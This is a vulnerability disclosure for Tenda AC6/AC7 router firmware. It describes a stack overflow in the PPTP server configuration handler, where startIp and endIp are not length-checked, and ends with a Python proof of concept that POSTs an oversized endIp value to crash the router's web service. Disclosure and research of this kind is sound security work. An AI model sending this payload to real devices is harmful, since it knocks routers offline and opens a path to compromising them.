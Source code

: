 # AC6_Stack_overflow

Vender ：Tenda

Firmware version:US_AC6V1.0BR_V15.03.05.16_multi_TD01 && US_AC7V1.0RTL_V15.03.06.44_multi_TD01.bin

Exploit Author: doudoudedi233@gmail.com

Vendor Homepage: https://www.tenda.com.cn/default.html

Hardware Link:https://www.tenda.com.cn/download/detail-2661.html


#### Describe

​	In Tenda AC6 firemware is US_AC6V1.0BR_V15.03.05.16_multi_TD01. The vulnerability lies in the setting of PPTP service / goform / setpptpservercfg in Tenda AC6 httpd component. If the length of startip and endip parameters is not well limited, it will lead to stack overflow.

#### Detail

​	Https form formSetPPTPServer fuction in IDA view

<img src="./img/image-20210916182726736.png" alt="image-20210916182726736" style="zoom:50%;" />

<img src="./img/image-20210916183154601.png" alt="image-20210916183154601" style="zoom:50%;" />

​	Due to the pointer defined in the function, the values of the startip parameter and endip parameter will be stored on the stack, and the length is not limited, resulting in a vulnerability

#### TEST

<img src="./img/image-20210916183755046.png" alt="image-20210916183755046" style="zoom:50%;" />

​		Grab HTTP packets

<img src="./img/image-20210916183819454.png" alt="image-20210916183819454" style="zoom:50%;" />

 	Parameterize request 

<img src="./img/image-20210916184146710.png" alt="image-20210916184146710" style="zoom:50%;" />

​	can see the service crash

<img src="./img/image-20210916184102459.png" alt="image-20210916184102459" style="zoom:50%;" />



#### POC

```
import requests
from pwn import *

url = "http://192.168.0.1/goform/SetPptpServerCfg"
payload = "a"*0x9c+"bbbb"
data={
	"serverEn":"1",
	"startIp":"100.0.0.100",
	"endIp":"100.0.0.200"+payload,
	"mppe":"1",
	"mppeOp":"40"
}
headers={
	"Host":"192.168.0.1",
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
	"Accept":"*/*",
	"Accept-Language":"en-US,en;q=0.5",
	"Accept-Encoding":"gzip, deflate",
	"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
	"X-Requested-With":"XMLHttpRequest",
	"Origin":"http://192.168.0.1",
	"Referer":"http://192.168.0.1/pptp_server.html?random=0.7706434999271096&",
	"Upgrade-Insecure-Requests":"1"
}
response = requests.request("POST", url, headers=headers, data=data)
```



